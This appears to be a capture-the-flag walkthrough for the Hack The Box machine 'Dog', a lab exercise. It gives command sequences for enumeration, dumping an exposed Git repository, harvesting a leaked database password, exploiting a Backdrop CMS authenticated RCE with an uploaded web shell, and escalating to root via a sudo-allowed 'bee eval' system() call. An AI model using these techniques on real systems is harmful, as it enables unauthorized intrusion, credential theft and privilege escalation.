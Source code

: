 # 🐶 Dog

## 📝 Overview

The machine uses **Backdrop CMS 1.27.1**, vulnerable to Authenticated Remote Code Execution (RCE).  
The goal is to enumerate the web application, exploit Backdrop CMS, and escalate privileges to root.

## 🔍 Enumeration

Nmap:
```sh
nmap -p- -T4 10.10.11.58
nmap -sV -sC -p 22,80 10.10.11.58
```
Add the host to /etc/hosts:
```sh
echo "10.10.11.58 dog.htb" | sudo tee -a /etc/hosts
```
Username Enumeration (Password Reset Form):
```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
-X POST -d "name=FUZZ&form_id=user_pass&op=Reset+password" \
-u http://10.10.11.58/?q=user/password -mr "Sorry, .* is not recognized as a user name"
```

## 📂 Git Repository Dump

```bash
python3 -m venv venv
source venv/bin/activate
pip install git-dumper
git-dumper http://10.10.11.58/.git/ ./doggit
```

## 🔑 Credential & Sensitive Information Search on dump git

```bash
grep -Ri 'user' .
grep -Ri 'username' .
grep -Ri 'password' .
grep -Ri 'pass' .
grep -Ri 'admin' .
grep -Ri '.htb'
grep -Eroi "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-z]{2,}" .
```
Found credentials:
```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```
And user:
```
tiffany@dog.htb
```

## ⚡ Exploiting Backdrop CMS 1.27.1 (Authenticated RCE)

The machine is vulnerable to **Backdrop CMS 1.27.1 – Authenticated Remote Command Execution**:  
[Exploit-DB #52021](https://www.exploit-db.com/exploits/52021)

```bash
# Install new module manually
python exploit.py http://10.10.11.58

# Package and upload web shell
tar -czvf shell.tar.gz shell/
# Access web shell
http://10.10.11.58/modules/shell/shell.php?cmd=id
# Find another user:
cat /etc/passwd/
```

## 🧗Password Reuse & Privilege Escalation

Login as johncusack using reused password:
```bash
# johncusack // BackDropJ2024DS2024

# Upload linPEAS for enumeration
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
scp linpeas.sh johncusack@10.10.11.58:.

# Basic enumeration
id
groups
uname -a
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
sudo -l

# Privilege escalation via Backdrop bee command
cd /var/www/html
sudo /usr/local/bin/bee --root eval "system('cat /root/root.txt');"
```
